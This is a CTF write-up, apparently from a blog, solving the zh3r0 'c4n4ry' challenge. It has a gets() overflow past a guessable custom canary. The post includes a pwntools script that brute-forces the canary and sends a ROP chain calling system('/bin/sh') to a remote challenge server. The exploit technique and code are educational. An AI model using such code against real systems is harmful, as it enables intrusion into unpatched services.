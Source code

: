 ```yaml
---
title: "c4n4ry [zh3r0 CTF]"
date: 2020-03-06
draft: false
tags: ["canary", "zh3r0"]
---
```


I am proud to say that my team zh3r0 hosted its first CTF. This blog covers a challenge called c4n4ry, which might have something to do with the stack canary.

# Challenge description:
![](/images/zh3r0_canary/imcanary.png)

# Solution:
## First step:

Analyze the binary and then check its mitigations.

![](/images/zh3r0_canary/mitigationscanary.png)

* NX is enabled so no shellcodes.
* PIE is disabled and also ASLR was disabled so no worries of the address changing.
Now, let us run the binary and then see !!

![](/images/zh3r0_canary/run.png)

We can say that there was a continuous loop running. Also if we analyze the binary carefully we can see the `name` and `input` were not vulnerable but the `description` was using gets which reads arbitrary input.Now we can disassemble the main file now.

![](/images/zh3r0_canary/get.png)

* GETS is vulnerable but…
* There is an additional memory compare.
* We can say that it might be our canary.

## The idea for the exploit:
Our first step will be in calculating the offset for the canary. I use pwntools pwn cyclic function but you guys can do anything.

## Inside GDB:
* I set a break at the memory compare.
* I use pwntools to analyze what is being compared with what
* Note: I also set up a fake canary to work with the binary locally

![](/images/zh3r0_canary/break.png)
<br />
![](/images/zh3r0_canary/break2.png)

Then I analyzed the string that was being compared with the help of pwntools.<br>
I got the offset as 192 for the canary. Now let me make a script to get a shell.
```python
from pwn import *
'''
system address = 0x400780
'''
p = remote("134.209.157.250", 5084)
p.sendline("1")
p.sendline("1")
buf = ('a'*192)
buf += ('abcd')
```

So I set the canary to be “abcd” and then I searched for some ROP and before that, I also got the offset for the ret to be 20 bytes.
So I created a **ROP chain.**

![](/images/zh3r0_canary/c1.png)
now it's just combining all of the gadgets that's it.

## Final step:
I need to brute force the canary. It was damn easy cause i told them the hints that the canary was going to be small letters and was going to be in order.
```python
from pwn import *
'''
sys = 0x400780
'''
for i in range(80, 123):
 p = remote("134.209.157.250",5084)
 p.sendline("1")
 p.sendline("1")
 buf = ('a'*192)
 buf += chr(i)+chr(i+1)+chr(i+2)+chr(i+3)
 buf += ('a'*20)
 buf += (p64(0x400936)) # pop r12
 buf += ("/bin/sh;")
 buf += (p64(0x400933)) #  pop r11 
 buf += (p64(0x6020B0)) #  just a random address to write to 
 buf += (p64(0x400927)) #  mov [r11], r12
 buf += (p64(0x0000000000400939)) # pop rdi
 buf += (p64(0x6020B0)) #  write address
 buf += (p64(0x400780)) #  system
 p.sendline(buf)
 p.interactive()
```
I just made the loop a bit big but what is the problem :P
![](/images/zh3r0_canary/shell.png)

## Conclusion
This was my first attempt to make a canary problem. So hope you liked this. Will be posting more blogs soon.